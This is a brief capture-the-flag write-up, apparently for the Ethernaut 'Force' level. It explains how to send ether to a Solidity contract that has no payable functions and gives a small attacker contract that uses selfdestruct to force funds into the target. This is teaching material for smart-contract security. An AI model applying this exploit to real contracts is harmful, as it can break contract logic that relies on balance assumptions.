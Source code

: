 # Force

The goal of this level is to make the balance of the contract greater than zero.

First, without `payable` modifier, any function cannot deal the payment, it will false them and refund them back.

```javascript
pragma solidity ^0.4.18;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

Obviously, this contract will never take your money, except someone destroy itself to force feed its 
heritage.

Simply deploy a contract and deposit some ether, than trigger the `selfdestruct()` function with target instance address.

```javascript
pragma solidity ^0.4.18;
contract forceFeeder{
    function () public payable{

    }
    function feeder(address param) public{ /*param Is Your Zepplin Main Contract Address*/
        selfdestruct(param);
    }
}
```